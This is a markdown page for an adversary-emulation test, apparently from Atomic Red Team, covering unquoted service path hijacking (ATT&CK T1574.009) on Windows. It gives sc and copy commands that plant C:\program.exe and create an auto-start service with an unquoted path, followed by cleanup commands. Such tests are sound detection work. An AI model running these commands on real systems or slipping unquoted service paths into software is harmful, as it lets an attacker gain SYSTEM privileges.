 ```yaml
---
tags: [T1574_009, atomic_test]
filename: "[[T1574.009 - Hijack Execution Flow- Path Interception by Unquoted Path]]"
---
```

# T1574.009 - Hijack Execution Flow: Path Interception by Unquoted Path

## Atomic Test #1 - Execution of program.exe as service with unquoted service path
When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability
known as Unquoted Service Path which allows a user to gain SYSTEM privileges.
In this case, if an executable program.exe in C:\ exists, C:\program.exe will be executed instead of test.exe in C:\Program Files\subfolder\test.exe.

**Supported Platforms:** Windows


**auto_generated_guid:** 2770dea7-c50f-457b-84c4-c40a47460d9f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_executable | Path of the executable used for the service and as the hijacked program.exe | path | PathToAtomicsFolder&#92;T1574.009&#92;bin&#92;WindowsServiceExample.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy "#{service_executable}" "C:\Program Files\windows_service.exe"
copy "#{service_executable}" "C:\program.exe"
sc create "Example Service" binpath= "C:\Program Files\windows_service.exe" Displayname= "Example Service" start= auto
sc start "Example Service"
```

#### Cleanup Commands:
```cmd
sc stop "Example Service" >nul 2>&1
sc delete "Example Service" >nul 2>&1
del "C:\Program Files\windows_service.exe" >nul 2>&1
del "C:\program.exe" >nul 2>&1
del "C:\Time.log" >nul 2>&1
```





<br/>
